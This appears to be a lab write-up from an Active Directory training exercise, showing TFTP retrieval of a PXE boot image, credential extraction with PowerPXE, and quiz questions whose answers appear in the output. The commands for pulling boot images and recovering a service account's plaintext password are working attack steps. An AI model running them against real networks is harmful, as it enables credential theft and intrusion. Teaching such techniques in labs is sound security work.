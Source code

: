 

```powershell
thm@THMJMP1 C:\Users\thm\Documents\0XFK>tftp -i 10.200.32.202 GET "\Tmp\x64{F95E60C5-C07C-469C-9C22-7980623C8896}.bcd" 
conf.bcd
Transfer successful: 12288 bytes in 1 second(s), 12288 bytes/s

thm@THMJMP1 C:\Users\thm\Documents\0XFK>Powershell -executionpolicy bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\thm\Documents\0XFK> Import-Module .\PowerPXE.ps1
PS C:\Users\thm\Documents\0XFK> $BCDFile = "conf.bcd"
PS C:\Users\thm\Documents\0XFK> Get-WimFile -bcdFile $BCDFile
>> Parse the BCD file: conf.bcd
>>>> Identify wim file : \Boot\x64\Images\LiteTouchPE_x64.wim  
\Boot\x64\Images\LiteTouchPE_x64.wim  #<----- location to be used in download
PS C:\Users\thm\Documents\0XFK> tftp -i 10.200.32.202 GET "\Boot\x64\Images\LiteTouchPE_x64.wim"
PS C:\Users\thm\Documents\0XFK> tftp -i 10.200.32.202 GET "\Boot\x64\Images\LiteTouchPE_x64.wim"  pxeboot.wim
Transfer successful: 341899611 bytes in 141 second(s), 2424819 bytes/s

```



```powershell
PS C:\Users> tftp -i 10.200.32.202 GET "\Boot\x64\Images\LiteTouchPE_x64.wim"  pxeboot.wim
```

### Recovering Credentials from a PXE Boot Image

```powershell
PS C:\Users\thm\Documents\0XFK> Get-FindCredentials -WimFile .\pxeboot.wim
>> Open .\pxeboot.wim 
New-Item : An item with the specified name C:\Users\thm\Documents\0XFK\ already exists. 
At C:\Users\thm\Documents\0XFK\PowerPXE.ps1:212 char:13
+     $null = New-Item -ItemType directory -Path $WimDir
+             ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ResourceExists: (C:\Users\thm\Documents\0XFK\:String) [New-Item], IOException
    + FullyQualifiedErrorId : DirectoryExist,Microsoft.PowerShell.Commands.NewItemCommand
 
>>>> Finding Bootstrap.ini 
>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$ 
>>>> >>>> UserID = svcMDT
>>>> >>>> UserDomain = ZA
>>>> >>>> UserPassword = PXEBootSecure1@
PS C:\Users\thm\Documents\0XFK> Get-FindCredentials -WimFile .\pxeboot.wim
```



<details><summary>  What Microsoft tool is used to create and host PXE Boot images in organisations?</summary></details>
<details><summary>What network protocol is used for recovery of files from the MDT server?</summary></details>
<details><summary>What is the username associated with the account that was stored in the PXE Boot image?</summary></details>
<details><summary>What is the password associated with the account that was stored in the PXE Boot image?</summary></details>


[1]: https://github.com/lgandx/Responder	"IPv6/IPv4 LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay."